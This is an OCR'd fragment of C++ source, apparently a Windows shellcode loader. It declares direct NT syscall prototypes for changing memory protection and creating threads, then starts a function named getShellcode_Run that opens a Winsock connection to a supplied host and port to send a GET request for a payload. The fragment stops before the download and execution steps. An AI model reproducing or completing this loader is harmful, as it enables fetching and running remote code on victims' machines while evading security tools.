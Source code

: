 ```cpp
    IN OUT PVOID* BaseAddress,
    IN OUT PSIZE_T RegionSize,
    IN ULONG NewProtect,
    OUT PULONG OldProtect
);

EXTERN_C NTSTATUS NtCreateThreadEx(
    OUT PHANDLE hThread,
    IN ACCESS_MASK DesiredAccess,
    IN PVOID ObjectAttributes,
    IN HANDLE ProcessHandle,
    IN PVOID lpStartAddress,
    IN PVOID lpParameter,
    IN ULONG Flags,
    IN SIZE_T StackZeroBits,
    IN SIZE_T SizeOfStackCommit,
    IN SIZE_T SizeOfStackReserve,
    OUT PVOID lpBytesBuffer
);

EXTERN_C NTSTATUS NtWaitForSingleObject(
    IN HANDLE Handle,
    IN BOOLEAN Alertable,
    IN PLARGE_INTEGER Timeout
);

void getShellcode_Run(char* host, char* port, char* resource) {
    DWORD oldp = 0;
    BOOL returnValue;
    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);

    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL, * ptr = NULL, hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);
    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;

    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult!= 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult!= 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return;
    }
```